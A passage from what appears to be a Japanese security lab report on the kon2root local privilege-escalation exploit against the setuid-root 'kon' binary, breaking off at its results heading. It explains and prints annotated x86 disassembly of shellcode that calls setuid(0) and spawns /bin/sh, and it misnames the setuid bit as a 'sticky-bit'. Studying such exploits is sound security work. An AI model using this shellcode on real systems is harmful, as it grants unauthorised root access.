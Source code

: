 このシェルコードは、まずシステムコール\texttt{sys\_execve}
(システムコール番号:
0xb）を呼び出して\texttt{/bin/id}を起動し、その後にkonのプロセスを終了していることがわかる。konコマンドのバイナリの所有者はrootでありかつsticky-bitが設定されているため、実効UID
(euid）は0、つまりrootとして実行される。しかし、実UID（ruid）
はkonを実行した一般ユーザのままである。そこで権限を奪取するためには、実UIDを0に変更する必要がある。また、\texttt{id}コマンドを実行しただけではrootユーザに昇格しても何もできないので、シェルを開く必要がある。これらの変更点を加えたシェルコードの逆アセンブリが下記である。

\begin{verbatim}
//sys_setuid：User ID = 0（root）をセット
 8049660:   31 db                   xor    ebx,ebx
 8049662:   31 c0                   xor    eax,eax
 8049664:   b0 17                   mov    al,0x17
 8049666:   cd 80                   int    0x80
 
// 2. へジャンプ
 8049668:   eb 1f                   jmp    8049689 <w00tI4r3l33t+0x29> 

//sys_execve:プログラムファイル（bin.sh）の実行                           // 1.
 804966a:   5e                      pop    esi
 804966b:   89 76 08                mov    DWORD PTR [esi+8],esi
 804966e:   31 c0                   xor    eax,eax
 8049670:   88 46 07                mov    BYTE PTR [esi+7],al
 8049673:   89 46 0c                mov    DWORD PTR [esi+12],eax
 8049676:   b0 0b                   mov    al,0xb
 8049678:   89 f3                   mov    ebx,esi
 804967a:   8d 4e 08                lea    ecx,[esi+8]
 804967d:   8d 56 0c                lea    edx,[esi+12]
 8049680:   cd 80                   int    0x80
 
//sys_exit：exit
 8049682:   31 db                   xor    ebx,ebx
 8049684:   89 d8                   mov    eax,ebx
 8049686:   40                      inc    eax
 8049687:   cd 80                   int    0x80

// 1.をコール
 8049689:   e8 dc ff ff ff          call   804966a <w00tI4r3l33t+0xa>       //2.
 804968e:   2f 62 69 6e 2f 73 68    db     "/bin/sh"
\end{verbatim}

このシェルコードを実行するようにkon2rootのソースコードに変更を加え、実行した。

\section{実験結果}

